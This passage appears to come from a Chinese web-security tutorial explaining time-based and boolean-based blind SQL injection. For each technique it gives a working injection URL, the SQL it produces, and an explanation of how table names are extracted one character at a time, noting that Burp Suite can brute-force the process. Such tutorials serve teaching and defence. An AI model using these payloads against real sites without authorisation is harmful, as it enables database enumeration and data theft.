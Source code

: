 **2.3.3、时间盲注**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"`

**判断当前数据库名称的字符数**<br />当我们输入
```
http://xmtxsec.top/test.php/?id=1' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',1,sleep(5))--+
```

实际执行的SQL语句为：
```
SELECT * FROM users WHERE id='1' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',1,sleep(5))
```

**分析：**`id='1'`为真，紧接着执行后面的if语句判断security数据库中的第一个表的名称的第一个字符是不是e，是则立即返回结果，不是则延迟5秒返回结果。

同上面一样可以使用BP进行爆破
![image.png](../../_img/02-Web安全/01-基础知识/1664342194131-505817f1-5cb5-4937-bf07-53f280288f54.png)

**2.3.4、布尔盲注**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`select aaa,bbb,ccc from tests where id = '$id'  `

当我们输入：
```
http://xmtxsec.top/test.php/?id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'--+
```

实际执行的SQL语句为：
```
select aaa,bbb,ccc from tests where id = '1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'
```

**分析：**`id = '1'`为真，紧接着判断security数据库里的第一个表名的第一个字符是不是e，是则页面返回正常，不是则页面返回错误。
![image.png](../../_img/02-Web安全/01-基础知识/1664343113730-72c48f5a-5509-467c-b1ed-f26b335e50cf.png)